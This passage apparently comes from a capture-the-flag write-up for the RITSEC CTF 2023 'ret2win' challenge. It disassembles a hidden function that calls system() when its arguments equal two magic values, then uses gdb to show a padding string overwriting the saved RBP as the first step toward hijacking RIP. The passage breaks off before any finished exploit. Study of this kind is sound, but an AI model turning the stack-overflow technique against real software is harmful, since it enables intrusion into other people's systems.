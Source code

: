 The `supersecrettoplevelfunction` looks sussy!

```shell
gef➤  disassemble supersecrettoplevelfunction 
Dump of assembler code for function supersecrettoplevelfunction:
   0x0000000000401196 <+0>:	endbr64
   0x000000000040119a <+4>:	push   rbp
   0x000000000040119b <+5>:	mov    rbp,rsp
   0x000000000040119e <+8>:	sub    rsp,0x10
   0x00000000004011a2 <+12>:	mov    DWORD PTR [rbp-0x4],edi
   0x00000000004011a5 <+15>:	mov    DWORD PTR [rbp-0x8],esi
   0x00000000004011a8 <+18>:	lea    rdi,[rip+0xe59]        # 0x402008
   0x00000000004011af <+25>:	call   0x401070 <puts@plt>
   0x00000000004011b4 <+30>:	cmp    DWORD PTR [rbp-0x4],0xcafebabe
   0x00000000004011bb <+37>:	jne    0x4011d4 <supersecrettoplevelfunction+62>
   0x00000000004011bd <+39>:	cmp    DWORD PTR [rbp-0x8],0xc0debabe
   0x00000000004011c4 <+46>:	jne    0x4011d4 <supersecrettoplevelfunction+62>
   0x00000000004011c6 <+48>:	lea    rdi,[rip+0xe6d]        # 0x40203a
   0x00000000004011cd <+55>:	call   0x401080 <system@plt>
   0x00000000004011d2 <+60>:	jmp    0x4011e1 <supersecrettoplevelfunction+75>
   0x00000000004011d4 <+62>:	lea    rdi,[rip+0xe6d]        # 0x402048
   0x00000000004011db <+69>:	call   0x401070 <puts@plt>
   0x00000000004011e0 <+74>:	nop
   0x00000000004011e1 <+75>:	nop
   0x00000000004011e2 <+76>:	leave
   0x00000000004011e3 <+77>:	ret
End of assembler dump.
```

In here, the `cmp` instruction in `+30` will compare **the `rbp` register in `-0x4` is `0xcafebabe` or not**. Then, **it also compares `-0x8` is `0xc0debabe` or not.**

If all conditions are passed, it'll invoke function `system()`, which do some OS command stuff.

## Exploitation

Armed with above information, we can start to exploit stack buffer overflow vulnerability!

- **Goal: Control the RIP register so that we can invoke function `supersecrettoplevelfunction()`**

**Now, we can use `gdb` to confirm we can overflow the RBP register:**
```shell
gef➤  r
[...]
Are you expert at exploit development, join the world leading cybersecurity company, Republic of Potatoes(ROP)
[*] This is a simple pwn challenge...get to the secret function!!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
[*] Good start AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB, now do some damage :) 

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401200 in user_input ()

[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x50              
$rbx   : 0x007fffffffdd68  →  0x007fffffffe0ef  →  "/home/siunam/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win/r[...]"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x007fffffffdc50  →  0x0000000000000001
$rbp   : 0x4242424242424242 ("BBBBBBBB"?)
$rsi   : 0x000000004052a0  →  "[*] Good start AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBB[...]"
$rdi   : 0x007fffffffd6c0  →  0x007ffff7e14e70  →  <funlockfile+0> mov rdi, QWORD PTR [rdi+0x88]
$rip   : 0x00000000401200  →  <user_input+28> dec DWORD PTR [rax-0x73]
```